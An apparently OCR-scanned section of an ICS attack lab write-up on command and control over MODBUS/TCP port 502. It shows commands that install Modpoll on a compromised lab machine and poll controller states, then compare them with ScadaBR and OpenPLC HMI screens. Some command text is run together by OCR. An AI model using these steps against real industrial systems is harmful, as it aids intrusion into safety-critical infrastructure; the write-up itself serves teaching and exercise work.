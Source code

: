 # Command and Control

#### **Blending in with Normal Network Activity Using MODBUS/TCP (Port 502)**

The attacker uses a commonly used port (MODBUS/TCP:502) to bypass firewalls and detection systems, blending in with normal network activity. (MODBUS or HTTP(S), OPC, RDP, telnet,...) \[T0885 - <https://attack.mitre.org/techniques/T0885/> ]

The attacker uses the **MODBUS/TCP** protocol, which typically operates on port **502**, to establish Command and Control between the compromised machines. By utilizing this widely-used industrial protocol, the attacker avoids raising suspicion, as MODBUS traffic is considered normal within many industrial control system (ICS) environments.

1. **Installing Modpoll on Machine M2 (Attack Machine):**

- The attacker installs the **Modpoll** tool on the compromised M2 to interact with MODBUS devices in the network.

- Modpoll is a command-line tool for polling MODBUS data, allowing the attacker to **read and write** data from MODBUS registers on the target machines.

```
# step 1 install modpoll in M2

wget https\://www\.modbusdriver.com/downloads/modpoll.tgz_tar xzf modpoll.tgz

export PATH=modpoll/x86\_64-linux-gnu:$PATH

```

****![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe68s9l88LiLzW58oAIbExkM1PYLvscOAAqFAvHHp6tOLt51MaLQ8FPIz7tMdvKEHOW4l0nL_VB9IUBwj8AA8V_T4d31CiCoXBRMqdYOjUH6Dbb-vHvfuF0mTgx-oDDinR1c7jWYZGhh5tQT27915pN327E?key=ZVE4yllmhIbKOidz4k1V_g)****

**Img 12:** Network scanning in M2, discovery of M3 network and 502 MODBUS TCP port.

2. **MODBUS Polling on M3 (System Controller) via MODBUS/TCP:**

- The attacker executes **Modpoll** to query the state of the system controllers on machine M3 using the MODBUS protocol over TCP (Port 502):

```
# step 1 checking machine/system controller states
# response can take some minutes
modpoll -m tcp -r 1 -c 4 -t 0 192.168.52.6 # the -c is the number of outputs you want to get, the response of this command can take some seconds to appear |

```


![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdulCra-JfynzhNl3cQL84b5hF-KSM-R9Rpvw0YXXjbZuVnY0Np9DSqu0n3gC8_t2p-sqYn3tMN04iHupeVMoOjh9XNQGdUbqBrcqd6oQCJJQwKG3jJoZF3lP5YbpphLmiewSJlu9VdX0I4iT-2GBEla9-x?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 13:** Response of MODBUS TCP port, controller states of systems in M3.

3. **Comparing Data with HMI Systems (ScadaBR and OpenPLC):**

- From the web interfaces of **ScadaBR** (http\://10.208.89.15:9090/ScadaBR/) and **OpenPLC** (http\://10.208.89.15:8080/monitoring), the attacker can see that they have the same information that authorized users would have about the machines' statuses.

- The attacker essentially mirrors what operators would see on their HMI (Human-Machine Interface), giving them full visibility into the operational state of the industrial control systems.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeLC8bPw3IoFnITDBK4Sn8iGF9yl1hOpoJymoFGglkc9cOz4h-MVLNfP4t2ucEE9GGSbH46LVc05i-2Jg_pMnI5B2Ud9WWvf1HRrbDj1ikRuQNAi8laqj1C9LUqMEDugh_zdkr_mUZtkWKhbYp5slwMt1g?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 14:** OpenPLC (right) and ScadaBR HMI (left).
